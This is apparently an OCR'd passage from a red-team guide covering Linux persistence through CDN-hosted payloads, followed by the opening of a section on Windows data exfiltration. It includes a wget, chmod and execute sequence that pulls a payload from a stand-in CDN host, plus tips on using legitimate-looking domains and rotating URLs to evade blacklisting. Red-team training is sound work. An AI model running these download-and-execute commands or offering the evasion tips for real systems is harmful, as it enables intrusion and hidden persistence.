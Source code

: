     Description: Use CDNs to distribute malware payloads to compromised Linux systems. The CDN infrastructure can help evade detection and ensure high availability.
    Tools: Azure CDN, AWS CloudFront, Google Cloud CDN.
    Command Examples (Download payload from CDN):

    bash

        wget https://cdn.example.com/payload.sh -O /tmp/payload.sh
        chmod +x /tmp/payload.sh
        /tmp/payload.sh

        Recommendations:
            Use legitimate-looking domain names for CDN distribution.
            Change CDN paths and URLs regularly to avoid blacklisting.

Conclusion

Persistence in Linux environments is a critical aspect of Red Team operations, providing the ability to maintain long-term access and control over compromised systems. The techniques detailed here range from leveraging native system features like cron jobs and SSH keys to utilizing cloud services for external persistence. Understanding and implementing these techniques allows Red Teams to simulate advanced threat actors effectively, testing and improving an organization's defenses.

Each persistence method must be chosen based on the specific target environment and operational goals. Combining multiple techniques can enhance stealth and resilience, making it more challenging for defenders to detect and remove the malicious presence. Regularly updating and rotating persistence mechanisms is crucial to adapt to evolving detection capabilities and maintain undetected access.

By mastering these persistence techniques, Red Teams can provide valuable insights into an organization's security posture, helping identify vulnerabilities and improve defensive measures against sophisticated cyber threats.

This detailed guide on Linux persistence techniques offers a comprehensive overview of various methods attackers can use to maintain access to compromised systems. Each technique includes practical examples, tools, and recommendations to help Red Teams implement effective and stealthy persistence mechanisms.

Section 4: Data Exfiltration Techniques

Data exfiltration is a critical stage in a cyber attack where the attacker extracts sensitive information from the compromised systems. It is essential for Red Teams to understand and simulate various exfiltration techniques to help organizations identify potential weaknesses and improve their defensive measures. Below, we delve into the various data exfiltration methods applicable to both Windows and Linux systems.
Data Exfiltration Techniques for Windows

Windows operating systems provide multiple avenues for data exfiltration. Attackers can leverage native tools, third-party applications, and network protocols to extract data stealthily. Here are some common techniques used for data exfiltration on Windows:
A. HTTP/HTTPS Exfiltration

Description: HTTP and HTTPS are commonly used protocols for web communication. Attackers can use these protocols to send data to external servers over standard web traffic, which often goes unnoticed by network monitoring systems.

    Tools:
        PowerShell: Native Windows scripting tool that can make HTTP/HTTPS requests.
        Certutil: A built-in Windows utility that can download files from a URL.
        Custom scripts and applications.
